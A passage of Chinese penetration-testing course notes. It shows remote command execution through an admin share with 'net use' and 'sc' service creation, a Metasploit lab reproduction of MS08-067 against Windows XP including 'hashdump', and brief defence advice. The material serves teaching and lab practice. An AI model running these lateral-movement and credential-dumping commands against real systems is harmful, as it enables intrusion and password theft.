 --

### 9.远程命令执行sc:
建立ipc连接(参见net use + at)后上传等待运行的bat或exe程序到目标系统上，创建服务（开启服务时会以system 权限在远程系统上执行程序）：
```bash
net use \\192.168.17.138\c$ "admin123" /user:pt007
net use
dir \\192.168.17.138\c$
copy test.exe \\192.168.17.138\c$
sc \\192.168.17.138 create test binpath= "c:\test.exe"
sc \\192.168.17.138 start test
sc \\192.168.17.138 del test
```

---

# 漏洞利用案例

---

## Windows漏洞利用之MS08-067远程代码执行漏洞复现

--

### 一、漏洞原理
MS08-067漏洞全称是“Windows Server服务RPC请求缓冲区溢出漏洞”，攻击者利用受害者主机默认开放的SMB服务端口445，发送特殊RPC（Remote Procedure Call，远程过程调用）请求，造成栈缓冲区内存错误，从而被利用实施远程代码执行。它影响了某些旧版本的Windows系统，包括：
```
Windows 2000
Windows XP
Windows Server 2003
```

--

### 二、环境搭建
受害机：Windows XP SP1镜像  
攻击机：Kali系统   

Windows XP SP1镜像下载参考：[Windows XP SP1可用的原版iso](https://blog.csdn.net/ddmtjegb12140/article/details/101920059)  
系统安装参考[使用VMware虚拟机安装Windows XP系统](https://blog.csdn.net/linxinfa/article/details/112768896)  

--

### 三、利用Metasploit复现漏洞
成功获取了Windows XP系统的Shell，我们调用 `ipconfig` 查看的IP地址也是目标的 `192.168.163.137`   
```bash
exploit
session 1
ipconfig
screenshot #msf方法
hashdump #msf方法
```

---

## 漏洞防御
一方面关闭相关端口、安装杀毒软件和补丁，另一方面在防火墙中进行流量监测，主要是针对数据包中存在的形如"\ ** \ … \ … \ *"这样的恶意路径名进行检测，最为保险的方法是使用pcre正则去匹配。
